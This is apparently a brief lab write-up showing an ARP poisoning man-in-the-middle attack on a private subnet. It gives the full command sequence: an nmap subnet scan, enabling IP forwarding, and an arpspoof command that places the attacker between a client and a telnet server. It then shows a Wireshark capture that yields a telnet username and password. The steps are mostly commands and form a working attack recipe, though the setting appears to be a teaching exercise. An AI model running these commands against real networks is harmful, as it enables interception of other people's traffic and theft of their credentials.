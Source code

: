 # ARP Poisoning

Find my IP address
```
ifconfig
```

My IP: 10.100.13.140

Find IP addresses of client and telnet server
```
nmap -sV 10.100.13.0/24
```

![1.1](./imgs/1.1.png)

enable Linux Kernel IP forwarding
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

-i INTERFACE<br>
-t TARGET_IP machine you want to trick<br>
-r HOST_IP machine you want to impersonate
```
arpspoof -i eth1 -t 10.100.13.37 -r 10.100.13.36
```

Open wireshark, filter "telnet", and follow tcp stream

![1.2](./imgs/1.2.png)

username: admin
password: MyS3cr3tP455

![1.3](./imgs/1.3.png)
